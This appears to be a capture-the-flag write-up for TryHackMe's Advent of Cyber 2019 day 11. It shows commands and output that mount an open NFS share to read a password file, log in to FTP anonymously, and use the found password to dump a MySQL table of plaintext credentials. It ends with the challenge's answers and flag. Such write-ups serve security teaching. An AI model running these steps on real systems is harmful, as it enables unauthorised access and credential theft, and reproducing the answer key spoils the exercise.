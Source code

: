 # This is the Write Up for day 11 challenge of Advent of Cyber 2K19 CTF.

> Pratyush Prakhar (5#1NC#4N) - 12/12/2019

## Description

McSkidy has been happy with the progress they've been making, but there's still so much to do. One of their main servers has some integral services running, but they can't access these services. Did the Christmas Monster lock them out? 

`This challenge is all about your knowledge service enumeration and pentesting.`

## Solution

1. Let's do service scans --> [All ports scan](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/rustscan/all.nmap) and [Main Scan](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/rustscan/main.nmap).

2. We find certain interesting services open on the IP. Let's look into them one by one.
    1. _Port 111, 2049_ - **NFS --> Network File System** - a distributed file system protocol that allows a user on a client computer to access files over a network as if they were stored locally on the client's own hard drive. We can locally mount if any open folders/files are exposed or shared to get some information.
    2. _Port 21_ - **FTP --> File Transfer Protocol** - Anonymous login allowed. Can we interesting.
    3. _Port 3306_ - **MySQL** - Maybe some way to access the database (mostly containing important information) appears.

3. NFS
    1. `showmount` found `/opt/files` folder shared with all.
    2. `mounted` the folder locally to enumerate.
    3. Found some useful information in the [creds.txt](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/nfs/files/creds.txt) file that might come in handy.

```bash
└─$ ls
files
                                                                                                                                                        
└─$ showmount -e 10.10.82.14                              
Export list for 10.10.82.14:
/opt/files *
                                                                                                                                                          
└─$ sudo mount -t nfs 10.10.82.14:/opt/files ./files -o nolock
[sudo] password for kali: 
                                                                                                                                                          
└─$ cd files 
                                                                                                                                                          
└─$ ls -la
total 8
drwxrwxrwx 2 kali kali   23 Dec 10  2019 .
drwxr-xr-x 3 kali kali 4096 Nov 14 22:01 ..
-rwxrwxrwx 1 kali kali   34 Dec 10  2019 creds.txt
                                                                                                                                                
└─$  cat creds.txt 
the password is securepassword123
                                                                                                                                                          
└─$ cd ..                                                    
                                                                                                                                                          
└─$ sudo umount files 
```

4. FTP
    1. Logged in the ftp with `anonymous` login.
    2. Found interesting files called [file.txt](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/ftp/file.txt) and [welcome.msg](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/ftp/welcome.msg) in the root directory.
    3. Rest folder seems to be empty.
    4. The files provided us the path to the SQL database.

```bash
└─$ ftp 10.10.82.14                                                                                                              
Connected to 10.10.82.14.
220 (vsFTPd 3.0.2)
Name (10.10.82.14:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||65535|).
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0              39 Dec 10  2019 file.txt
drwxr-xr-x    2 0        0               6 Nov 04  2019 pub
d-wx-wx--x    2 14       50              6 Nov 04  2019 uploads
-rw-r--r--    1 0        0             224 Nov 04  2019 welcome.msg
226 Directory send OK.
ftp> get file.txt
local: file.txt remote: file.txt
229 Entering Extended Passive Mode (|||65535|).
150 Opening BINARY mode data connection for file.txt (39 bytes).
100% |*********************************************************************************************************************************************************************|    39      865.58 KiB/s    00:00 ETA
226 Transfer complete.
39 bytes received in 00:00 (0.21 KiB/s)
ftp> get uploads
local: uploads remote: uploads
229 Entering Extended Passive Mode (|||65535|).
550 Failed to open file.
ftp> get welcome.msg
local: welcome.msg remote: welcome.msg
229 Entering Extended Passive Mode (|||65535|).
150 Opening BINARY mode data connection for welcome.msg (224 bytes).
100% |*********************************************************************************************************************************************************************|   224        4.61 KiB/s    00:00 ETA
226 Transfer complete.
224 bytes received in 00:00 (1.06 KiB/s)
ftp> cd pub
250 Directory successfully changed.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||65535|).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0               6 Nov 04  2019 .
drwxr-xr-x    4 0        0              67 Dec 10  2019 ..
226 Directory send OK.
ftp> cd ../uploads
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||65535|).
150 Here comes the directory listing.
226 Transfer done (but failed to open directory).
ftp> 
```

5. MySQL
    1. Get into the remote hosted DB with the creds found.
    2. We enumerate teh available databases. `data` seems odd. Let's look into it. 
    3. On reading the available `USERS` table, we get a set of [credentials](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_11/sql/data/users.txt).

```bash
└─$ mysql -u root -p -h 10.10.82.14
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 16
Server version: 5.7.28 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> \h

General information about MariaDB can be found at
http://mariadb.org

List of all client commands:
Note that all text commands must be first on line and end with ';'
?         (\?) Synonym for `help'.
clear     (\c) Clear the current input statement.
connect   (\r) Reconnect to the server. Optional arguments are db and host.
delimiter (\d) Set statement delimiter.
edit      (\e) Edit command with $EDITOR.
ego       (\G) Send command to MariaDB server, display result vertically.
exit      (\q) Exit mysql. Same as quit.
go        (\g) Send command to MariaDB server.
help      (\h) Display this help.
nopager   (\n) Disable pager, print to stdout.
notee     (\t) Don't write into outfile.
pager     (\P) Set PAGER [to_pager]. Print the query results via PAGER.
print     (\p) Print current command.
prompt    (\R) Change your mysql prompt.
quit      (\q) Quit mysql.
rehash    (\#) Rebuild completion hash.
source    (\.) Execute an SQL script file. Takes a file name as an argument.
status    (\s) Get status information from the server.
system    (\!) Execute a system shell command.
tee       (\T) Set outfile [to_outfile]. Append everything into given outfile.
use       (\u) Use another database. Takes database name as argument.
charset   (\C) Switch to another charset. Might be needed for processing binlog with multi-byte charsets.
warnings  (\W) Show warnings after every statement.
nowarning (\w) Don't show warnings after every statement.

For server side help, type 'help contents'

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| data               |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.180 sec)

MySQL [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| USERS          |
+----------------+
1 row in set (0.160 sec)

MySQL [data]> SELECT * FROM USERS;
+-------+--------------+
| name  | password     |
+-------+--------------+
| admin | bestpassword |
+-------+--------------+
1 row in set (0.183 sec)
```

## Brownie Points

1. Compromise the web server using Metasploit. What is flag1? - **THM{3ad96bb13ec963a5ca4cb99302b37e12}**.

2. Now you've compromised the web server, get onto the main system. What is Santa's SSH password?- **rudolphrednosedreindeer**.

3. Who is on line 148 of the naughty list? - **Melisa Vanhoose**.

4. Who is on line 52 of the nice list? - **Lindsey Gaffney**


## Extra Treats.

1. Look into the other open services found. Have fun.





